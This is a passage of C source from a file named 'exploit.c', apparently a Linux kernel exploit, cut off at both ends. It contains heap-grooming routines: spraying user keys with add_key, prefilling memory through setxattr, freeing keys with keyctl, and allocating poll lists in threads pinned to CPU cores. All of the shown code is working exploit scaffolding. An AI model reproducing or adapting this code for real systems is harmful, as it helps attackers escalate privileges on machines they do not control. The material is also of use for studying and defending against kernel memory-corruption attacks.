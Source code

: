 ```exploit.c
  static char *data = NULL;
  if (data == NULL) data = calloc(0x1000, 1);
  //for (int ix = 0; ix != 32 / 8; ++ix) ((ulong*)data)[ix] = _alloc_key_prefill_ulong_val;
  ((ulong*)data)[0] = _alloc_key_prefill_ulong_val;
  setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
}
void _alloc_key_prefill_null(void) {
  _alloc_key_prefill_ulong_val = 0;
  _alloc_key_prefill_ulong();
}
void alloc_key(char *payload, int size, void (*prefill)(void)) {
  static char *desc = NULL;
  if (desc == NULL) desc = calloc(1, 0x1000);

  sprintf(desc, "key_%d", num_keys);
  if (prefill != NULL) prefill();
  keys[num_keys] = add_key("user", desc, payload, size, KEY_SPEC_PROCESS_KEYRING);
  if (keys[num_keys] < 0) errExit("alloc_key");
  num_keys++;
}
void spray_keys(int num, char c) {
  static char *payload = NULL;
  if (payload == NULL) payload = calloc(1, 0x1000);
  char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
  memset(key_payload, c, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != num; ++ix) alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_null);
}
void free_key(key_serial_t key) {
  if (keyctl_revoke(key) != 0) errExit("keyctl_revoke");
  if (keyctl_unlink(key, KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
  --num_keys;
}

struct alloc_poll_list_t {
  int fd;
  int id;
  int num_size;
  int timeout_ms;
};
void* alloc_poll_list(void *_arg) {
  struct pollfd fds[NUM_POLLFD];
  struct alloc_poll_list_t *arg = (struct alloc_poll_list_t *)_arg;
  assert(arg->fd >= 2);

  for (int ix = 0; ix != arg->num_size; ++ix) {
    fds[ix].fd = arg->fd;
    fds[ix].events = POLLERR;
  }
  pthread_mutex_lock(&mutex);
    ++num_threads;
  pthread_mutex_unlock(&mutex);

  thread_assign_to_core(0);
  if (poll(fds, arg->num_size, arg->timeout_ms) != 0) errExit("poll");

  pthread_mutex_lock(&mutex);
    --num_threads;
  pthread_mutex_unlock(&mutex);

  if (neverend) {
    thread_assign_to_core(2);
```